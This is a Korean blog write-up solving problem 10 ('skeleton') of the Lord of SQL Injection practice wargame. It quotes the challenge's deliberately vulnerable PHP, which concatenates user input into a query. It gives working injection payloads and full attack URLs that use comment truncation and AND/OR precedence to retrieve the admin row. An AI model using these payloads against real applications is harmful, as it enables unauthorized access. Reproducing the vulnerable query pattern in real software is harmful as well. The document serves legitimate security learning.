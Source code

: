 ```yaml
---
title: Lord of SQL Injection Write Up No.10 Skeleton
date: 2019-08-21 23:35:49
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 10번 skeleton 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

SQL Injection을 통해 필요하지 않은 조건절을 무력화시킬 수 있는지 확인한다.

### 소스 코드 분석

skeleton 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("skeleton");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("skeleton");
```

- 받은 `id`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. 주석 처리 이용

   MySQL에서는 `#`, `-- -`와 같은 주석문자에 이어져 나오는 문자열을 모두 무시한다.

   따라서 입력값으로 `' or id='admin'%23`, `' or id='admin'-- -` 과 같이 마지막에 주석을 넣은 값을 넣으면 삽입된 문자열까지만 처리하여 문제가 풀리게 된다.

   ```url
   http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin'%23
   ```

   URL Encoding 후 공백은 %20, #은 %23, '는 %27이 된다.

   ```url
   http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin'-- -
   ```

   ```sql
   select id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0
   ```

   ```sql
   select id from prob_skeleton where id='guest' and pw='' or id='admin'-- -' and 1=0
   ```

2. 논리 연산 우선순위 이용

   MySQL에서 WHERE절의 논리 연산같은 경우 AND연산이 OR연산보다 우선 처리된다.

   따라서 입력값으로 `' or id='admin' or '1'='1` 과 같은 값을 넣으면 `id='guest'`인 행의 `pw`가 빈 문자열이 아닌 경우 논리 연산 후 결국 `id='admin'`인 행을 불러오는 SQL문이 되어 문제가 풀리게 된다.

   ```url
   http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' or id='admin' or '1'='1
   ```

   ```sql
   select id from prob_skeleton where id='guest' and pw='' or id='admin' or '1'='1' and 1=0
   ```
